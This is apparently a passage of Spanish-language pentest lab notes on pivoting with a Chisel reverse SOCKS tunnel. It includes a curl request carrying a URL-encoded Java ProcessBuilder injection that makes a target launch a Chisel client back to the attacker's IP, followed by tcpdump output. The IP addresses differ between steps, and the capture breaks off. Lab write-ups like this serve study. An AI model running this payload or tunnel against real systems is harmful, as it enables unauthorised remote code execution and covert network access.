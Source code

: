 <br />

- A continuación, el siguiente paso es ejecutar los comandos correspondientes en cada una de las máquinas. En primer lugar en nuestra máquina loca, Kali, debemos iniciar el servidor Chisel:

	```
	kali@kali:~$ chisel server --port 8080 --reverse
	2022/07/22 16:43:23 server: Reverse tunnelling enabled
	2022/07/22 16:43:23 server: Fingerprint mSEANZuBWndrvnJqRgBasGtCQqbe0TkKAnPoQJgNy7Q=
	2022/07/22 16:43:23 server: Listening on http://0.0.0.0:8080
	```

	El comando anterior ejecuta el servidor para escuchar sobre el puerto 8080 y con la opción '--reverse' para realizar un *HTTP dynamic remote port forwarding*.

	Ahora, ejecutamos el siguiente comando en la máquina intermediaria:

	```
	/tmp/chisel client <LOCALIP>:8080 R:socks > /dev/null 2>&1 &
	```

	Dado que no tenemos acceso RCE directo lo volvemos a lanzar con el POF del exploit que tenemos:

	```
	kali@kali:~$ curl http://192.168.223.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.221:8080%20R:socks%27%29.start%28%29%22%29%7D/
	```

	Si previamente hubiéramos filtrado el tráfico de red en la interfaz de la VPN y en el puerto 8080 seríamos capaces de ver la request que el cliente realiza al servidor Chisel:

	```
	kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
	tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
	...
	18:13:53.687533 IP (tos 0x0, ttl 63, id 53760, offset 0, flags [DF], proto TCP (6), length 276)
	    192.168.50.63.41424 > 192.168.118.4.8080: Flags [P.], cksum 0xce2b (correct), seq 1:225, ack 1, win 502, options [nop,nop,TS val 1290578437 ecr 143035602], length 224: HTTP, length: 224
	        GET / HTTP/1.1
	        Host: 192.168.118.4:8080
	        User-Agent: Go-http-client/1.1
	        Connection: Upgrade
	        Sec-WebSocket-Key: L8FCtL3MW18gHd/ccRWOPQ==
	        Sec-WebSocket-Protocol: chisel-v3
	        Sec-WebSocket-Version: 13
	        Upgrade: websocke
	
	        0x0000:  4500 0114 d200 4000 3f06 3f4f c0a8 323f  E.....@.?.?O..2?
	        0x0010:  c0a8 7604 a1d0 1f90 61a9 fe5d 2446 312e  ..v.....a..]$F1.
	        0x0020:  8018 01f6 ce2b 0000 0101 080a 4cec aa05  .....+......L...
	        0x0030:  0886 8cd2 4745 5420 2f20 4854 5450 2f31  ....GET./.HTTP/1
	        0x0040:  2e31 0d0a 486f 7374 3a20 3139 322e 3136  .1..Host:.192.16
	        0x0050:  382e 3131 382e 343a 3830 3830 0d0a 5573  8.118.4:8080..Us
	        0x0060:  6572 2d41 6765 6e74 3a20 476f 2d68 7474  er-Agent:.Go-htt
	        0x0070:  702d 636c 6965 6e74 2f31 2e31 0d0a 436f  p-client/1.1..Co
	        0x0080:  6e6e 6563 7469 6f6e 3a20 5570 6772 6164  nnection:.Upgrad
	        0x0090:  650d 0a53 6563 2d57 6562 536f 636b 6574  e..Sec-WebSocke
	        0x00a0:  2d4b 6579 3a20 4c38 4643 744c 334d 5731  -Key:.L8FCtL3MW1
	        0x00b0:  3867 4864 2f63 6352 574f 5051 3d3d 0d0a  8gHd/ccRWOPQ==..
	        0x00c0:  5365 632d 5765 6253 6f63 6b65 742d 5072  Sec-WebSocket-Pr
	        0x00d0:  6f74 6f63 6f6c 3a20 6368 6973 656c 2d76  otocol:.chisel-v
	        0x00e0:  330d 0a53 6563 2d57 6562 536f 636b 6574  3..Sec-WebSocke
	        0x00f0:  2d56 6572 7369 6f6e 3a20 3133 0d0a 5570  -Version:.13..Up
	        0x0100:  6772 6164 653a 2077 6562 736f 636b 6574  grade:.websocke
	        0x0110:  0d0a 0d0a                                ....
	18:13:53.687745 IP (tos 0x0, ttl 64, id 60604, offset 0, flags [DF], proto TCP (6), length 52)